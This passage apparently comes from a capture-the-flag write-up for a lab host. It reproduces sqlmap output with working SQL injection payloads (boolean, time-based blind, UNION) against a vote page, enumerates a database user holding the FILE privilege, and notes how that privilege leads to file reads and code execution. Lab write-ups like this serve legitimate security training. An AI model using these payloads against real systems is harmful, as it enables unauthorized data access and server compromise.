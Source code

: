 ```bash
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[09:33:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[09:33:04] [INFO] fetching database users privileges
[09:33:06] [WARNING] the SQL query provided does not return any output
[09:33:06] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:33:06] [INFO] fetching database users
[09:33:08] [WARNING] the SQL query provided does not return any output
[09:33:08] [INFO] fetching number of database users
[09:33:08] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:33:08] [INFO] retrieved: 1
[09:33:14] [INFO] retrieved: 'voteuser'@'loca
[09:35:01] [WARNING] unexpected HTTP code '404' detected. Will use (extra) validation step in similar cases
[09:35:02] [ERROR] invalid character detected. retrying..
lhost'
[09:35:39] [INFO] fetching number of privileges for user 'voteuser'
[09:35:39] [INFO] retrieved: 1
[09:35:46] [INFO] fetching privileges for user 'voteuser'
[09:35:46] [INFO] retrieved: FILE
database management system users privileges:
[*] %voteuser% [1]:
    privilege: FILE

[09:36:20] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times, 404 (Not Found) - 1 times
[09:36:20] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 09:36:20 /2025-08-13/
```

Got `FILE` privilege which we can read files from filesystem and also write files that we can leverage this point to access configuration files, logs, source code and even RCE.

